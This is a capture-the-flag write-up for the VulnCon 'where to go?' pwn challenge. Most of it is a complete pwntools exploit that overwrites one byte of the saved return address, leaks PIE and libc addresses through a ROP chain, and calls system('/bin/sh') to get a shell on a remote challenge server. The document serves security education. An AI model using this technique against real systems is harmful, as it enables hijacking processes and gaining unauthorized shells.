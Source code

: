 ## VulnCon CTF: where to go? [pwn]
![](where_desc.png)

#### There was a secret function in the challenge where it could be used to leak an address to defeat pie and aslr. What we needed to do was to overwrite only one byte of the saved return address to jump into the secret function. After which, we can proceed to leak libc addresses and execute a ROPchain to system. 

```python
from pwn import *

#:
#p = process('./where_to_go')
breakpoints = ['brva 0x7da', 'brva 0x873', 'brva 0x898']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
p = remote("35.232.11.215", 49155)

print(p.recvuntil('Hello!\n'))
p.send(cyclic(40) + '\x99') #: ONE-BYTE OVERWRITE
main_leak = u64(p.recvuntil('Hello!\n')[:6].ljust(8, '\x00'))
func_base = main_leak & ~0xfff
print(hex(main_leak))
print(hex(func_base))

pop_rdi = 0x0000000000000943
pop_rsi_r15 = 0x0000000000000941
exploit = cyclic(40)
exploit += p64(func_base + pop_rdi)
exploit += p64(0x1)
exploit += p64(func_base + pop_rsi_r15)
exploit += p64(func_base + 0xfd0 + 0x200000) #: setvbuf@GOT
exploit += p64(0x0)
exploit += p64(func_base + 0x8ca) #: write(1, setvbuf@GOT, whatever_is_in_rdx)
exploit += p64(main_leak) #: return to main
p.sendline(exploit)

setvbuf_leak = u64(p.recv()[:6].ljust(8, '\x00'))
print(hex(setvbuf_leak))

#:
libc = ELF('./libc.so.6', checksec = False)
libc_base = setvbuf_leak - libc.symbols['setvbuf']
print(hex(libc_base))

exploit = cyclic(40)
exploit += p64(func_base + 0x0000000000000288)
exploit += p64(func_base + pop_rdi)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])
p.sendline(exploit)
p.interactive()
```

![](where_shell.png)